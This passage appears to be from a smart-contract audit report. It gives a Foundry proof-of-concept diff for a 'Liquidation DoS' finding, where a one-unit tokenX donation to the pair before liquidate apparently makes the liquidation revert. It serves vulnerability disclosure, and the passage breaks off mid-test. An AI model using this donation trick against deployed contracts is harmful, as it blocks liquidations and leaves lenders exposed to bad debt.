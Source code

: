 showcasing clearly the revert reason, the contract thinks the user should have a higher balance of debt tokens, than he/she actually has.


#### Liquidation DoS - Intentional donation

Within ```./test/LiquidationTests.sol``` replace the ```testLiquidateHardBadDebtYAgainstLAndX``` with (or alternatively just paste the highlighted transfer line in):

```diff
function testLiquidateHardBadDebtYAgainstLAndX() public {
        (
            ,
            Validation.InputParams memory borrowerUnderWater
        ) = createBadDebtWithYAgainstLAndX();

        // Reserves after
        (, uint256 reserveYInYAssets, ) = pair.getReserves();
        uint128[6] memory totalAssets = pair.totalAssets();

        uint256 repayBorrowedY = (Math.ceilDiv(
            (2 *
                borrowerUnderWater.userAssets[DEPOSIT_L] +
                Math.ceilDiv(
                    borrowerUnderWater.userAssets[DEPOSIT_X] * Q72,
                    borrowerUnderWater.sqrtPriceMinInQ72
                )) * Q72,
            borrowerUnderWater.sqrtPriceMinInQ72
        ) * 94) /
            // Double the deposit L because value wise 1 units of L is worth twice the corresponding amount of X & Y
            // ) * BIPS / maxPremiumInBips; // 11350
            100;

        assertLt(
            repayBorrowedY,
            borrowerUnderWater.userAssets[BORROW_Y],
            "Repay should be less than borrower debt"
        );

        // liquidate by repaying Y only
        vm.startPrank(liquidator);
+       tokenX.transfer(address(pair), 1);
        pair.liquidate(
            borrower,
            liquidator,
            borrowerUnderWater.userAssets[DEPOSIT_L],
            borrowerUnderWater.userAssets[DEPOSIT_X],
            0,
            0,
            0,
            0,
            repayBorrowedY,
            Liquidation.HARD
        );
        vm.stopPrank();

        // asserts

        Validation.InputParams memory liquidatorAfter = getInputParams(
            liquidator
        );

        assertEq(
            liquidatorAfter.userAssets[DEPOSIT_L],
```